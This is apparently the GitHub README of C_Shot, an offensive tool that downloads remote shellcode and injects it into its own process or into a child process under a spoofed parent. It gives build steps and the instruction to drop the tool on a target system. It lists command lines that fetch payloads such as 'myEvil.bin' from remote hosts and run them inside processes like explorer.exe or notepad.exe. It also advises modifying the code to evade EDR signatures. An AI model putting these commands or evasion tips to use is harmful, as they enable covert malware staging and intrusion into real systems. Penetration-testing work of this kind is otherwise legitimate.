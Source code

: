 # C_Shot

Description
============

C_Shot is an offensive security tool written in C which is designed to download, inject, and execute shellcode in memory.  Depending on the arguments used, this can be accomplished via two different methods:

**1. Inject into its own process** 

   C_Shot will download your remote .bin file, inject and execute it inside C_Shot's own process.
 
**2. Inject into child process using parent process spoofing**

   C_Shot will download your remote .bin file, spoof a specified parent process, open a specified child process (with optional commandline args) under the specified parent process, then inject and execute it inside the child process.
   
**Contact at:**
- Twitter: @anthemtotheego

**Shoutout and Contribution:** 
- Jacob Moody: Huge thanks for helping me better understand C concepts when I first started to dive into learning the language.

**Quick blog:**

http://blog.redxorblue.com/2020/07/cshot-just-what-doctor-ordered.html

**Extras:**

Included is a python script ShellcodeToBin.py that will convert your shellcode to a .bin file if needed.

**Before submitting issues, this tool may not always be updated actively. I encourage you to borrow, add, mod, and/or make your own.  Remember, there is a lot of awesome code examples out there that can be taken/modified to create your own custom tools.**

Setup - Quick and Dirty
==============================

**Note: For those of you who don't want to go through the trouble of compiling your own I uploaded an x64 and x86 binary found in the CompiledBinaries folder.  For those of you who do want to compile your own... I used Windows 10, Visual Studio 2019 - mileage may vary**

1. Download C_Shot project solution

2. Now do a windows search for Developer Command Prompt for VS 2019 and right click > open folder location                         

3. Browse to VC folder and select the Developer Command Prompt with the correct arch for the target system (x86 or x64)

4. Inside the Developer Command Prompt browse to the C_Shot directory where cshot.c is located

5. Run the following command to build C_Shot - ```cl /D _UNICODE /D UNICODE cshot.c```

6. You will see some compile warnings (can ignore) but you should now have an executable named cshot.exe

7. Drop on target system you are testing and run

Important Notes
===============

**1. Architecture of C_Shot and the shellcode you are retrieving should be the same.**

**2. This tool is written in C which is an unmanaged language.**

**3. PAGE_EXECUTE_READWRITE permissions are used in this open source POC, among other IOCs. This was done intentionally and as always, I would suggest going through and modifying the code to help get around signature/behavior based analysis.**

**4. While C_Shot can absolutely help you on your journey of executing shellcode succesfully, it can only help you with so much.  If you choose to execute for example, the widely known default staged meterpreter payload, decent EDR products (but not all) will most likely flag it upon execution of the shellcode due to known behaviors or signatures.  In most cases (but not all) this will not be a C_Shot problem but a shellcode behavior/obfuscation problem.  This however is usually easily fixed.**

C_Shot Syntax Examples
=====================

   **Download a bin file and execute shellcode into your own process**
   
   *General Syntax*
   
```cshot.exe https://Domain_or_IP/myEvil.bin  Port```

   *Examples*
   
```cshot.exe https://github.com/anthemtotheego/public/blob/master/StagelessShellcode.bin?raw=true 443```

```cshot.exe http://192.168.1.10/StagedShellcode.bin 8080```

   **Download a .bin file and execute shellcode in a chosen child process under a chosen spoofed parent process**
   
   *General Syntax*
   
```cshot.exe https://Domain_or_IP/myEvil.bin  Port ParentProcess.exe C:\Full\Path\ToChildProcess.exe```

   *or*
   
  ```cshot.exe https://Domain_or_IP/myEvil.bin  Port ParentProcess.exe C:\Full\Path\ToChildProcess.exe "my child process commandline args here"```

   *Examples*
   
```cshot.exe https://github.com/anthemtotheego/public/blob/master/StagelessShellcode.bin?raw=true 443 explorer.exe c:\windows\system32\notepad.exe```

```cshot.exe https://github.com/anthemtotheego/public/blob/master/StagelessShellcode.bin?raw=true 443 explorer.exe c:\windows\system32\cmd.exe "ipconfig /all"```

```cshot.exe https://192.168.1.10/StagedShellcode.bin 8443 chrome.exe c:\windows\system32\werfault.exe```


Convert Shellcode To Bin File 
=============================

**Included ShellcodeToBin.py script** 

1. Open up ShellcodeToBin.py in a text editor, paste in shellcode, save and run it.

2. This will produce a bin file you can download with C_Shot and execute.

Code References 
===============

*Parent Process Spoofing*

```https://github.com/hlldz/APC-PPID```

*ShellcodeToBin.py script*

```https://diego.assencio.com/?index=99d3134bb98fdcc9a7c2bd6071db737d```

*Everything else*

```MSDN```

```Unsung heroes of stackoverflow```
